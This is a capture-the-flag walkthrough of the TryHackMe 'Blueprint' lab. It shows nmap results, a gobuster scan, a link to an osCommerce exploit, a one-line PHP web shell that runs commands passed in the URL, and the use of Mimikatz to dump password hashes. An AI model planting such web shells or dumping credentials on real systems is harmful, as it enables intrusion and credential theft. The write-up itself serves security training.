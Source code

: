 # 8 - Blueprint

Room Link --> [https://tryhackme.com/room/blueprint](https://tryhackme.com/room/blueprint)

Nmap Results:

{% code overflow="wrap" lineNumbers="true" %}
```bash
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 7.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows
```
{% endcode %}

All are dead-ends, except the port 8080.

`gobuster dir -u http://10.10.138.195:8080/ -x php,html,txt,aspx,asp -t 15 -q -w /usr/share/wordlists/dirb/common.txt` - dir search.

Search exploit-db.com for known exploits for "oscommerce", i used this one --> [https://www.exploit-db.com/exploits/44374](https://www.exploit-db.com/exploits/44374)

Edit the content of the script:

<figure><img src=".gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption><p>1</p></figcaption></figure>

used it to upload mimikatz, and a php web cmd shell:&#x20;

{% code title="shell.php" %}
```php
# to execute cmds from the webpage directly
<?php echo shell_exec($_GET["cmd"]); ?>
```
{% endcode %}

Use Mimikatz to dump the hashes and read the root flag.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>2</p></figcaption></figure>

